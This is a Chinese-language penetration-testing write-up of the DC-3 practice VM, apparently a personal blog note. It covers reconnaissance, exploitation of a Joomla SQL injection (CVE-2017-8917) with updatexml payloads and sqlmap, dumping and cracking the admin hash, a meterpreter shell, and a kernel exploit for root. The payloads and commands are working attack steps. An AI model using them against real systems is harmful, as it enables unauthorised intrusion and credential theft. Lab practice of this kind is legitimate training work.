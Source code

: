 ```yaml
---
title: DC3
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-16T01:01:44+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l 
目标机器ip ==> 192.168.121.146
```

开始信息收集

打开主页是一个登陆库框和几个功能按钮，先扫描一下端口和目录

```shell
Nmap scan report for 192.168.121.146 (192.168.121.146)
Host is up (0.00042s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:E9:F8:71 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

```
gobuster dir -u http://192.168.121.146 -w /usr/share/wordlists/dirb/common.txt
```

![dir](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\dir.png)

只有/administrator可以正常访问，访问发现是后台管理系统的登陆界面，使用的框架应该是Joomla,那就从框架入手，看看有没有能够利用的点

找到一个今年出的未授权漏洞，尝试利用失败，应该是版本没对上

```
http://127.0.0.1/api/index.php/v1/config/application?public=true
```

该漏洞要求4.0以上的版本，因此我们再看看有没有什么办法能够查询到版本，在测试漏洞的可利用性过程中发现了一个工具joomscan

```
perl joomscan.pl --url http://192.168.121.146
```

该工具能够识别版本，组件等等内容

![joomscan-1](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\joomscan-1.png)

最基础的，我们能够看到这里的版本信息，以及一些目录路径等等

识别组件还会给我们相应的漏洞,如下

```
perl joomscan.pl --url http://192.168.121.146 --ec
```

![joomscan-2](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\joomscan-2.png)

```
[++] Name: com_biblestudy                                                                                                                                                            
Location : http://192.168.121.146/components/com_biblestudy/                                                       Directory listing is enabled : http://192.168.121.146/components/com_biblestudy/                                                                                                     
[!] We found the component "com_biblestudy", but since the component version was not available we cannot ensure that it's vulnerable, please test it yourself.                       
Title : Joomla Component com_biblestudy 1.5.0 (id) SQL Injection Exploit                                                                                                             
Reference : https://www.exploit-db.com/exploits/5710                                                                                                                                 
[!] We found the component "com_biblestudy", but since the component version was not available we cannot ensure that it's vulnerable, please test it yourself.                       
Reference : http://www.cvedetails.com/cve/CVE-2018-7317                                                                                                                              
Reference : https://www.exploit-db.com/exploits/44159                                                                                                                                
Fixed in : 9.1.6                                                                                                                                                                     
[!] We found the component "com_biblestudy", but since the component version was not available we cannot ensure that it's vulnerable, please test it yourself.                       
Reference : http://www.cvedetails.com/cve/CVE-2018-7316                                                                                                                              
Reference : https://www.exploit-db.com/exploits/44164                                                                                                                                
Fixed in : 9.1.7    
```

给出漏洞和exp来源，我们可以选择影响较大的进行尝试，并且这个页面是文件泄露的地方，一般的字典应该跑不出这个目录，只能用对应的cms识别工具扫描，在这个页面翻看了一下，没有找到什么有价值的信息，那就开始尝试使用cve进行攻击

**cve-2017-8917**

根据介绍是一个sql injection，采用的方式是报错注入，

```
/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

如下，成功利用![xpath](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\xpath.png)

可以开始查询数据库等内容了，修改payload

```
updatexml(0x23,concat(1,database()),1) ==> joomladb
UpdateXML(2, concat(0x3a,(SELECT(HEX(TABLE_NAME))FROM(information_schema.tables) LIMIT 85,1),0x3a),1)
==>d8uea_content
UpdateXML(2,concat(0x3a,(SELECT(concat(COLUMN_NAME))FROM(information_schema.COLUMNS) WHERE TABLE_NAME LIKE 0x64387565615F636F6E74656E74 LIMIT 0,1),0x3a),1) 
==>id 
获取特定表的内容
UpdateXML(2,%20concat(0x3a,(SELECT(concat(id))FROM(d8uea_content)%20LIMIT%200,1),0x3a),1)
```

通过查询alias得到一个welcome,尝试登录失败，可能是表没有找对，重新爆破表名找到疑似表位于149,\#__users

但是在查询该表的列时遇到因为token问题而无法查询的问题

```
UpdateXML(2,concat(0x3a,(SELECT(concat(COLUMN_NAME))FROM(information_schema.COLUMNS) WHERE TABLE_NAME LIKE 0x235f5f7573657273 LIMIT 0,1),0x3a),1) 
```

手工注入注不出来，改用sqlmap试试

```
python sqlmap.py -u "http://192.168.121.146/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

可以正常注入，开始查询数据

```
python sqlmap.py  -u "http://192.168.121.146/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T "#__users" --dump
```

直接把表的内容脱下来，能够看到admin的密码邮箱

![admin](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\admin.png)

```
+-----+-------+--------------------------+--------------------------------------------------------------+----------+
| id  | name  | email                    | password                                                     | username |
+-----+-------+--------------------------+--------------------------------------------------------------+----------+
| 629 | admin | freddy@norealaddress.net | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu | admin    |
+-----+-------+--------------------------+--------------------------------------------------------------+----------
```

我们不能通过修改密码的页面修改admin的密码，只能另辟蹊径，很显然密码通过了hash加密，我的想法是去库里面找加密文件，或者是强行破解

有个#__user_keys表还没查过，但只使用common字典查不出来什么东西

再查一下#__bsms_admin，都查不出来什么就只能尝试爆破hash了

```
john password.txt
```

得到密码snoopy

![john](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\john.png)

成功登录后台

由于我之前尝试使用msf获取反向shell,给我的理由是没有administrator登录，因此没有返回shell,我们现在已经获取了admin账户，这样就能轻松获取低权限shell了

![low_hsell](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\low_hsell.png)

先用python尝试升级一个交互式shell,

```
meterpreter > shell
Process 19632 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-3:/var/www/html/templates/beez3$ 
```

**系统漏洞提权**

在此之前，还是尝试了用一般命令进行提权，但是没有www的密码，无法执行sudo命令，网上的wp基本都是采用系统漏洞提权，借鉴一下

利用ubuntu16.04拒绝服务漏洞提权

```
searchspolit Ubuntu 16.04
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

![zip](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\zip.png)

下载exp到本地

```
wget https://.....
```

解压

```
unzip 39772,zip
cd 39772
tar -xvf exploit.tar 
cd file_name
./compile.sh
./doublueput.c
./doubleput
即可提权root
```

![root](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\root.png)

在root目录下找到flag

![flag](E:\笔记软件\笔记\渗透测试\靶机练习\DC3图库\flag.png)

### 总结：

前期的渗透都还算顺利，当手注出不来的时候还是利用工具方便些，最大的问题还是提权，第一想法就是去利用命令提权，但是没办法直接执行sudo命令时，还要利用系统漏洞进行提权，算是打开了思路，慢慢总结来放到提权部分
